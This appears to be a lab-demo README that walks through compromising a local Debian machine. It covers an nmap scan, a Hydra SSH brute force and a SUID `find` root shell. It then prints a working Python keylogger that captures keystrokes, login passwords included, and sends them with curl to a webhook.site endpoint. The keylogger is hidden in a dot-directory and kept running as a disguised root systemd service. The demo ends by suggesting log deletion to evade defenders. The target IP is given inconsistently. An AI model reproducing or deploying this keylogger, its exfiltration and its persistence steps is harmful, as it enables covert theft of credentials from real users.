

# Demo: Deployment of a simple Keylogger on a Victim machine in local Network


## Introduction
This report documents the process of compromising a victim machine set up with two accounts: an Administrator account (admin1) and a User account (user) that is not in sudoers, brute forcing will be used to gain access, through ssh, to the user account that is set up with a weak password. After Initial access, some steps will follow to achieve Privilege Escalation, which will be useful for placing and hiding a simple Keylogger on the machine that will run as a root Systemd service.

The Target machine is in the same local network as the attacker and is running a fresh Debian 13 "Trixie" install.

In the next section the Setup for this virtual machine will be described.

---

## Setup: Victim Machine

For this Demo we will suppose that the machine has an always running ssh server and it has python3 and python3-pip already installed.
Additionally we introduce a suid misconfiguration on `find` and `gawk` that will be used for privilege escalation.

### Install and Enable SSH Server
- **Install OpenSSH server:**
  ```bash
  sudo apt install openssh-server
  ```
- **Start and enable SSH:**
  ```bash
  sudo systemctl start ssh
  sudo systemctl enable ssh
  ```

### Install Python 3 and pip
- **Install Python 3:**
  ```bash
  sudo apt install python3
  ```
- **Install pip for Python 3:**
  ```bash
  sudo apt install python3-pip
  ```

### SUID misconfiguration
- **Set SUID on `find` and `gawk`:**
  ```bash
  sudo chmod +s /usr/bin/find
  sudo chmod +s /usr/bin/gawk
  ```

---

## DEMO EXECUTION

### Identify Network Configuration
- **Display network interfaces:**
  ```bash
  ip a
  ```

We will find the Attacker Machine IP and subnet mask: 10.0.2.3/24

### Scan for Open SSH Servers
- **Scan with Nmap:**
  ```bash
  nmap -sS 10.0.2.0/24
  ```
  
  ```bash
  ...
  Nmap scan report for 10.0.2.5
  ...
  PORT    STATE  SERVICE
  22/tcp  open   ssh
  ...
  ```
We found the target machine at 10.0.2.5 with port 22/tcp open for ssh


---

## Gaining Initial Access

For the next step knowledge of the presence of an account named "user" will be taken for granted.

### Brute-Force Attack with Hydra
- **Run Hydra to guess the password for `user`:**
  ```bash
  hydra -l user -P /home/kali/Desktop/Pass 10.0.2.5 ssh -t 1 -w 1 -vV
  ```
  ```bash
  ...
  [ATTEMPT] target 10.0.2.5 - login "user" - pass "spongebob" - 13 of 20 [child 0]
  [22][ssh] host: 10.0.2.5    login: user   password: spongebob
  [STATUS] attack finished fo 10.0.2.5
  ...
  ```
### SSH Access

Using the password "spongebob" found in the previous passage we can login through ssh to the target machine.

- **Log in to the victim machine:**
  ```bash
  ssh user@10.0.2.15
  ```

---

## Privilege Escalation

Now that we have access to the target machine we need to find a way to gain higher privileges ("user" is a default account and is not in sudoers).

### Search for SUID Binaries

We search for all executables with suid.

- **Find all files with SUID bit set:**
  ```bash
  find / -perm -4000 -type f 2>/dev/null
  ```
  ```bash
  ...
  /usr/bin/gawk
  ...
  /usr/bin/mount
  ...
  /usr/bin/find
  ...
  ```


### `gawk` with SUID

- **Attempt to spawn a root shell:**
  ```bash
  gawk 'BEGIN {system("/bin/sh")}'
  ```
  **Result:** Even with the suid we get a shell as "user", we must find another way.

  **Note:** The SUID bit may be dropped due to how `gawk` spawns a shell through `system()` call (as documented in [GTFOBins](https://gtfobins.org/)).

### Check Filesystem for `nosuid` Flag

We try to see if the suid could be dropped because of the "nosuid" flag on the filesystem, if we find a directory that has not "nosuid" we could try and copy gawk to that directory and try calling it from there.

- **List mount points without `nosuid`:**
  ```bash
  mount | grep -v nosuid
  ```
  ```bash
  /dev/sda1 on / type ext4 (...)
  systemd-1 on /proc/sys/fs/binfmt_misc type autofs (...)
  ```
Sadly these two are not writeable as "user".

### `find` with SUID

"find" has also been misconfigured and has the suid bit set.

- **Spawn a root shell using `find`:**
  ```bash
  find . -exec /bin/sh -p \; -quit
  ```
  **Result:** A root shell is obtained
---

## Keylogger "Installation"

We want to put a Keylogger on the victim machine and we want it to potentially capture key presses also during login attempts, we additionally want this keylogger to send the collected logs somewhere the attacker can easily access.

```python
#!/usr/bin/env python3
from evdev import InputDevice, categorize, ecodes
import os
import datetime

LOG_FILE = "/tmp/Settings.json"
WebHook = "https://webhook.site/alphanumericcode"
count=0
maxcount=100


devices = []
for i in range(10):
    	path = f"/dev/input/event{i}"
    	if os.path.exists(path):
        	try:
            		device = InputDevice(path)
            		devices.append(device)
        	except:
            		pass

def send():
	with open(LOG_FILE, "r+") as f:
		content = f.read().strip()
		if not content:
			return
		f.seek(0)
		f.write(f"[{content}]")
		f.truncate()
	os.system(f'curl -s -S -X POST -H "Content-Type: application/json" -d @{LOG_FILE} {WebHook}')
	open(LOG_FILE, "w").close()


for device in devices:
	for event in device.read_loop():
		if event.type == ecodes.EV_KEY:
		    key = categorize(event)
		    if key.keystate == key.key_down:
		        with open(LOG_FILE, "a") as f:
		            f.write(f'{{"time":"{datetime.datetime.now().isoformat()}","Key_Down": "{key.keycode}"}}')
		            count += 1
		            if	(count<maxcount):
		            	f.write(f",\n")
		        if (count >= maxcount):
		            send()
		            count = 0

```

This simple Keylogger collects events from input devices and logs the key down events writing a timestamp and the keycode in a file /tmp/Setting.json.
After 100 key logged this way, the send() function sends the log throug an HTTP POST request to  https://webhook.site and empties the file.


### Transfer the Keylogger
**Note:** This command is performed on the attacker machine. 
- **Copy the keylogger (`EVLOG.py`) to the victim machine:**
  ```bash
  scp /home/kali/Desktop/EVLOG.py user@10.0.2.15:/home/user/Desktop
  ```

### Hide the Keylogger
- **Create a hidden directory:**
  ```bash
  mkdir /usr/local/bin/.logs
  ```
- **Move the keylogger to the hidden directory:**
  ```bash
  mv EVLOG.py /usr/local/bin/.logs
  ```
- **Make the keylogger executable:**
  ```bash
  chmod +x /usr/local/bin/.logs/EVLOG.py
  ```

### Install Dependencies
- **Install `evdev` for the keylogger:**
  ```bash
  pip3 install evdev --break-system-packages
  ```

### Create a Systemd Service

To keep persistence of operation for the keylogger we create a systemd service which will grant it will start at system startup and run as root.

- **Navigate to the systemd directory:**
  ```bash
  cd /etc/systemd/system
  ```
- **Create the service file `logger.service`:**
  ```bash
  sudo nano logger.service
  ```
- **Add the following content to `logger.service`:**
  ```ini
  [Unit]
  Description=Log Collector
  After=network.target

  [Service]
  Type=simple
  ExecStart=/usr/bin/python3 /usr/local/bin/.logs/EVLOG.py
  Restart=always
  User=root

  [Install]
  WantedBy=multi-user.target
  ```
- **Reload, enable, and start the service:**
  ```bash
  sudo systemctl daemon-reload
  sudo systemctl enable logger.service
  sudo systemctl start logger.service
  ```

### Keylogger Functionality
- As said before: the keylogger runs at startup as `root`. It logs batches of 100 keystrokes and sends them as JSON to `webhook.site` via POST requests.

---

## Conclusion

Here a screenshot of a message taken from https://webhook.site in which we can see a login attempt for the administrator account:



we can see that **admin1** has the password: **Best_Admin!**

### RECAP
1. We took advantage of **Weak Credentials:** SSH was vulnerable to brute-force attacks due to weak passwords.
2. We took advantage of **Misconfigured SUID Binaries:** `find` with SUID allowed privilege escalation to root.
3. We gained **Persistence:** A hidden keylogger and systemd service maintains access and provides **Data Exfiltration**(for potentially very useful data such as password of other accounts or services etc.).

**Note:** The demo concludes with achieving the presence of a functioning keylogger, to make it not too long, however some additional passages could have been implemented, in particular, the attacker could easily delete shell logs and auth logs to make it more difficult for a defender to spot malicious activity.

---

### CREDITS
This Demo has been created also thanks to some tools and documentation:

-[GTFOBins](https://gtfobins.org/): For specifics on Privilege Escaltion

-[Evdev Documentation](https://python-evdev.readthedocs.io/en/latest/): For keylogger writing

-[webhook.site](https://webhook.site): To support the keylogger output

-[LeChat](https://chat.mistral.ai): For general bugfixing

-Various online sources for general Linux knowledge 
 

